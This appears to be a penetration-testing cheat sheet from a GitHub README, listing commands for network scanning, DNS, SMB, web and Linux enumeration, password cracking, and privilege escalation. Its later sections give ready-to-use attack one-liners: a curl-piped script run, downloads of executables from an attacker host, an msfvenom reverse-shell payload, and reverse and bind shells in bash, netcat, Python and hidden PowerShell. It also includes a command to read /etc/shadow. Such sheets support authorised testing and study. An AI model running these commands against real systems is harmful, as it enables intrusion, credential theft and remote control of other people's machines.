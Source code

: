 ## Scanning and Enumeration

#### NMAP
`nmap -sn IP_range`<br>
`nmap -p- -sS -iL Live_Hosts_List`<br>
`nmap -sV -sC -p Open_Ports -iL Live_Hosts_List`<br>

<img width="300" alt="NMAP_top_ports" src="https://github.com/ErvinTista/Paris/assets/13991872/85159f37-8f60-489e-b515-7a8f4c77e8d7">

#### DNS Enumeration
`host domain`<br>
`host -t mx domain`<br>
`host -t txt domain`<br>
`dnsrecon -d domain -t std`<br>
`dnsenum domain`<br>
`nslookup -type=TXT domain IP`<br>

#### TCP/UDP Port Scan
`nc -nvv -w -z IP port-port`<br>

#### SMB Enumeration
`nmap -v -p 139,445 --script smb-os-discovery IP`<br>

#### Web Enumeration
`sudo nmap -p80 --script=http-enum -sV IP` <br>
`gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 5`<br>
`feroxbuster --url domain --depth 2 --wordlist /usr/share/wordlists/dirb/common.txt -x .txt,.jpg`<br>

#### Linux Enumeration
`whoami`<br>
`hostname`<br>
`id`<br>
`cat /etc/passwd`<br>
`cat /etc/shadow`<br>
`cat /etc/os-release`<br>
`uname -a`<br>
`ip a`<br>
`ifconfig`<br>
`route`<br>
`history`<br>
`netstat -ano`<br>
`crontab -l`<br>
`cat /etc/cron*`<br>
`sudo -l`<br>
`env`<br>
`cat /etc/profile`<br>
`cat /etc/bashrc`<br>
`cat ~/.bash_profile`<br>
`cat ~/.bashrc`<br>
`ps -elf`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`<br>

## Exploit

#### Password Cracking
`hashcat -a 0 -m #hash_type hash.txt dictionary_list.txt`<br>

#### Transfers
`PS iwr -uri http://attacker.IP/met.exe -Outfile met.exe`<br>
`powershell wget -Uri http://attacker_IP/name.exe -OutFile C:\destination\directory\name.exe`<br>
`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`<br>

## Pivoting and Tunneling

## Persistence

## Shells and One Liners
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP.Addr.es.ss LPORT=443 -f exe -o staged_reverse_tcp.exe`

### Reverse Shells
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

### Bind Shells
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

`python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

### Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`; ctrl -z; stty raw -echo; fg

## Resources and Links
|Description|Link|
|-----------|----|
|Linux Privesc|https://payatu.com/blog/a-guide-to-linux-privilege-escalation/|
|LinWinMacPEAS|https://github.com/carlospolop/PEASS-ng|
|Nmap Pretty|https://github.com/honze-net/nmap-bootstrap-xsl|
|CrackMapExec|https://github.com/byt3bl33d3r/CrackMapExec|
|NetExec|https://github.com/Pennyw0rth/NetExec|
|CrackMapExec Cheatsheet + other good cheatsheets|https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/|


